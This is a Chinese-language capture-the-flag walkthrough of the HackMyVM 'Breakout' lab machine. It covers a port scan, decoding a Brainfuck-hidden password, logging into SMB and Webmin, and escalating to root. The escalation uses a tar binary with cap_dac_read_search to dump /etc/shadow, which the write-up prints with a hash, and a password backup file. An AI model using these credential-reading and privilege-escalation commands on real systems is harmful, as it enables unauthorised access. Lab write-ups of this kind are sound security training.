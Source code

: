 # Breakout

2024.12.29 https://hackmyvm.eu/machines/machine.php?vm=Breakout

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp
```

先访问 80 web 首页，在 HTML 源码中发现提示：

```
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

Brainfuck 解密后是: `.2uqPEfj3D<P'a-3`

在看看 445 上有什么，经过 enum4linux 枚举后，发现一个用户 cyber，尝试用上面得到的字符串当作密码，进行 smbmap：

```
smbmap -H 192.168.5.40 -u cyber -p ".2uqPEfj3D<P'a-3"
```

发现认证成功，但是 print$ 和 IPC$ 没有权限访问。

访问 10000 和 20000 的端口服务，发现是 https 的，用 cyber 和密码进行登陆，发现 20000 能登陆进去，alt + k 快捷键发现可以执行命令。

得到了 user flag：

```
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

经过枚举，发现 cap 程序中有:

```
/home/cyber/tar cap_dac_read_search=ep
```

进行利用：

```
/home/cyber/tar cvf shadow.tar /etc/shadow
/home/cyber/tar -xvf shadow.tar

root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:99999:7:::
```

但是使用 john 不能破解出来，在继续寻找，经过枚举发现 /var/backups/.old_pass.bak 是一个类似密码备份文件，继续使用 tar 将其转储出来:

```
/home/cyber/tar cvf /home/cyber/pass.tar .old_pass.bak
/home/cyber/tar -xvf pass.tar

[cyber@breakout ~]$ cat .old_pass.bak
Ts&4&YurgtRX(=~h
```

使用得到的密码切换到 root 用户，得到了最终的 flag(如果 su 切换不了，就创建一个反弹的 shll 给到 kali 上，就可以切换了)：

```
root@breakout:~# cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```
